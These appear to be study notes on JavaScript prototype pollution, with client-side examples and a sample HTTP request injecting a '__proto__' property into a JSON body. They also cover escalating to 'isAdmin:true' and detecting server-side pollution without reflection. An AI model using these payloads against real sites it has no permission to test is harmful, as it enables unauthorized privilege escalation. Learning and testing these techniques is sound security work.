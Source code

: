 ```sh
// pollute the prototype with an arbitrary property
Object.prototype.foo = 'bar';

// confirm myObject does not have its own foo property
myObject.hasOwnProperty('foo'); // false

// list names of properties of myObject
for(const propertyKey in myObject){
    console.log(propertyKey);
}

// Output: a, b, foo
# This also applies to arrays, where a for...in loop first iterates over each index
const myArray = ['a','b'];
Object.prototype.foo = 'bar';

for(const arrayKey in myArray){
    console.log(arrayKey);
}

// Output: 0, 1, foo
# If the app later includes the returned properties in a response -> probe server-side prototype pollution. 

# POST or PUT requests that submit JSON data to an application or API are prime candidates to be polluted:
POST /user/update HTTP/1.1
Host: vulnerable-website.com
...
{
    "user":"wiener",
    "firstName":"Peter",
    "lastName":"Wiener",
    "__proto__":{
        "foo":"bar"
    }
# If the website is vulnerable, your injected property would then appear in the updated object in the response:
HTTP/1.1 200 OK
...
{
    "username":"wiener",
    "firstName":"Peter",
    "lastName":"Wiener",
    "foo":"bar"
}
Once you identify that server-side prototype pollution is possible -> look for potential gadgets to use for an exploit.
# EXAMPLE:
Identify POST/PUT JSON data and a property on the response that is not set by the request, use protot. pol. isAdmin:true


##################### Detecting server-side prototype pollution without polluted property reflection
Most of the time -> when you pollute a server-side prototype object -> you will not see property reflected on response
Approach -> inject properties that match potential configuration options for the server (sth we can compare after/before)
    Status code override
    JSON spaces override
    Charset override
```
